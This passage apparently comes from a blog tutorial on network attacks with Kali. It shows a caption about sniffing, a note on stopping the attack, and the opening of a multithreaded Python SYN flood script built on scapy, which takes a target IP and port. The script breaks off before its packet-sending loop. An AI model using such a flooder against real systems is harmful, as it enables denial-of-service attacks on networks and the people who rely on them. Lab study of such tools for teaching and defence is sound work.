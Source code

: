 ![kali4](/assets/images/kali4.png "kali4"){:class="img-responsive"}{:height="1000px" width="2000px"}
**Figure 51** More sniffing.

To kill the attack just type ctrl+c, in my case after I killed the attack I was able to connect my DG.

{% highlight python %}

#!/usr/bin/env python
#########################################
#
# SYNflood - A multithreaded SYN Flooder
# author: arthurnn
#
#
#########################################
import socket, random, sys, threading
from scapy.all import *

if len(sys.argv) != 3:
	print "Usage: %s <Target IP> <Port>" % sys.argv[0]
	sys.exit(1)

target = sys.argv[1]
port = int(sys.argv[2])

total = 0
conf.iface='en1';#network card XD

class sendSYN(threading.Thread):
	global target, port
	def __init__(self):
		threading.Thread.__init__(self)
	def run(self):